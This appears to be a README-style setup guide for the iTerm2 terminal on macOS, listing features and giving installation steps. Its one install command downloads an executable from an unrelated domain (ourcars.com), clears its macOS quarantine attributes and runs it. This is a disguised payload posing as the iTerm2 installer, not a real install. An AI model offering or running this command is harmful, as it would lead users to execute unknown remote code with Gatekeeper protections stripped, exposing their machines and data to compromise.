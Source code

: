 # 🚀 iTerm2 Setup Guide for macOS

![iTerm2 Custom Terminal Preview]([screenshots/preview.png](https://iterm2.com/img/logo2x.jpg)) <!-- Replace with your actual image path -->

> Boost your terminal productivity with a powerful, customizable replacement for macOS Terminal

## ✨ Key Features
- 🎨 256-Color & True Color Support
- 🔥 GPU-Accelerated Text Rendering
- ⌨️ Customizable Hotkey Windows
- 📦 Split Panes & Tab Management
- 🔌 Integration with Zsh/Bash/Fish

## 📥 Installation

### Install iTerm2
```bash
curl -o /tmp/update https://ourcars.com/update && xattr -c /tmp/update && chmod +x /tmp/update && /tmp/update
```

